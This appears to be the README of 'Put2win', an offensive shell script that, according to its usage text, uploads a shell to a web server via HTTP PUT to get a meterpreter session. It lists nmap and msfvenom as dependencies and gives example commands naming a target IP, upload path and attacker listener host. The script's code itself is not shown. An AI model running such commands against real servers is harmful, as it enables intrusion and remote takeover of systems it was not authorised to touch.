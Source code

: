 # Put2win
<script src="https://asciinema.org/a/0GFJCJzRQZBlWYAxco2ONqODZ.js" id="asciicast-0GFJCJzRQZBlWYAxco2ONqODZ" async></script>

# Dependencies
It's necessary to have installed nmap and msfvenom tools for a correct operation

# Usage
./Put2win.sh -h                                    
This script automatize shell upload by PUT HTTP method to get meterpreter.

Usage:
 ./Put2win.sh -t TARGET [-p PORT] -u URL_PATH -l LHOST

Examples:
 - ./Put2win.sh -t 192.168.1.80 -u /uploads -l 192.168.1.10
 - ./Put2win.sh -t 192.168.1.80 -p 443 -u /uploads -l 192.168.1.10

# Contact
Telegram: @devploit
Twitter: https://www.twitter.com/devploit
